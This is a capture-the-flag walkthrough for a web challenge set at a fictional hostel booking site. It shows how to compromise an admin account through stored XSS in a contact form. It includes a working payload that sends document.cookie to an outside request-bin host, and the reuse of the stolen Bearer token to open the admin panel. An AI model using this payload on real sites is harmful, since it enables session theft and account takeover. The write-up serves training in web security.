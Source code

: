#### NOTE: The challenge is a bit buggy and will produce the final flag some times, and in other times you will have to repeat the cookie manipulation part multiple times
# Booking
## Challenge Description:
On your last vacation day in the "Wild Moose Hostel", the hostel's manager heard you discussing your full-time job as a penetration tester with other guests.<br>
She offered you to stay an additional night, free of charge, in exchange for assistance regarding a suspicion they have based on a security issue.<br>
According to her, they noticed several logins to their admin accounts at late hours, which none of the actual admins could confirm as valid.<br>

#### Your goals<br>
☛ Find the vulnerable functionality on the web application.<br>
☛ Find a way to compromise an admin account.<br>
☛ Gain access to the hostel's admin panel.<br>


## Process:

<kbd align="center">
  <img src="Images/Booking_01.png"/>
</kbd> 
<br><br>
Sign up and create an account. The credentials don't matter all that much, just remember them. <br>

<br><kbd align="center">
  <img src="Images/Booking_02.png"/>
</kbd><br>

After creating an account, sign in and go to 'My Moose'.<br>
Scroll down to the 'Contact Us' section.<br>
<br><kbd align="center">
  <img src="Images/Booking_03.png"/>
</kbd><br><br>
Go to this site https://pipedream.com/requestbin in order to create a public bin to continue the process<br> 
<br><kbd align="center">
  <img src="Images/Booking_04.png"/>
</kbd><br><br>
Copy the endpoint link <br>
<br><kbd align="center">
  <img src="Images/Booking_05.png"/>
</kbd><br><br>
Go to this site https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md that contains Reflected XSS injection scripts for stealing cookies and use the 3rd script<br>
<br><kbd align="center">
  <img src="Images/Booking_06.png"/>
</kbd><br><br>
In the 'Contact Us' section, place the script with the endpoint link inside of it, for example: <br>
<img src=x onerror=this.src='https://enqewxf0bhc69.x.pipedream.net/?'+document.cookie;><br>
<br><kbd align="center">
  <img src="Images/Booking_07.png"/>
</kbd><br><br>
Now you should return to the public bin page and wait a few moments for the requests to appear. <br>
<br><kbd align="center">
  <img src="Images/Booking_08.png"/>
</kbd><br><br>
What you will need now is the Bearer token that is highlighted in the picture. Double click it and copy. <br>
Return to the Moose site and open up the 'Cookie Editor' extension, and replace the value section with the Bearer token that we just copied. Save it and refresh the page<br>
<br><kbd align="center">
  <img src="Images/Booking_09.png"/>
</kbd><br><br>
Now you should see a new yellow button next to 'My Moose' that says 'Admin Panel'. <br>
<br><kbd align="center">
  <img src="Images/Booking_10.png"/>
</kbd><br><br>
Now this is the buggy part. Enter the admin panel and you will either see a blank page, or you will see the flag. <br>
If you don't see the flag, repeat the login part and redo the cookie edit. Repeat until it works

